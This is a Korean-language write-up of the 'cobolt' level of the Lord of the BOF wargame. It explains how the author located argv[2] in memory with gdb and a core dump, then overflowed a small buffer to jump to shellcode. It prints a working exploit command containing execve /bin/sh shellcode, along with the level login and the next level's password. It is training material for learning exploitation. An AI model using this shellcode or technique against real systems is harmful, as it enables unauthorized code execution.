 # [LOB] cobolt Write-up

![](./picture/cobolt_1.JPG)

```
login : gremlin
Password : hello bof world
```
위의 계정으로 로그인하면 접속된다.

cobolt.c의 내용은 아래와 같이 확인할 수 있다.
``` bash
[gremlin@localhost gremlin]$ cat cobolt.c
```

![](./picture/cobolt_2.JPG)

이번 문제의 힌트는 *small buffer* 이다. gremlin 문제와 비슷하지만 버퍼가 작아 argv[1]에 쉘코드까지 넣을 수 없다. 따라서 argv[2]의 시작 주소를 알아내고, argv[2]에 쉘코드를 넣어주면 된다.

![](./picture/cobolt_3.JPG)

디스어셈블한 코드는 위와 같다.  
main+10에 브레이크 포인트를 걸고 실행시켰다.

![](./picture/cobolt_4.JPG)

$ebp의 4번째 있는 주소(0xbffffac4)가 argv의 포인터 주소이다. 그리고 0xbffffac4에서 차례대로 argv[0], argv[1], argv[2] 순서로 간다. 따라서 argv[2]의 시작 주소는 **0xbffffbf2** 이다.  
주소를 다 맞춰주기 위해 argv[2]의 길이를 100으로 맞췄고, 실행할 때 경로도 써주었다.

![](./picture/cobolt_5.JPG)
하지만 문제가 풀리지 않는다. 주소가 바뀐 것 같아 core 분석하기로 했다. cobolt가 아닌 aaaaaa로 실행시키면 core dump가 생긴다.

![](./picture/cobolt_6.JPG)

``` bash
[gremlin@localhost gremlin]$ gdb -c core
```
gdb 분석과 비슷하다. 리턴 주소로 넣어준 **0xbffffbf2**부터 데이터를 확인해봤다.

![](./picture/cobolt_7.JPG)

NOP으로 채워져 있었다. 앞 부분에 쉘코드가 있을 것 같아 찾아가다보니 **0xbffffbdb** 주소부터 쉘 코드가 시작된다. 따라서 argv[2]의 시작주소는 **0xbffffbdb** 이다.

![](./picture/cobolt_8.JPG)

```
/home/gremlin/cobolt `python -c 'print "\x90"*20 + "\xdb\xfb\xff\xbf"'` `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x90"*75'`
```
문제가 풀렸다.  
비밀번호는 **hacking exposed** 이다.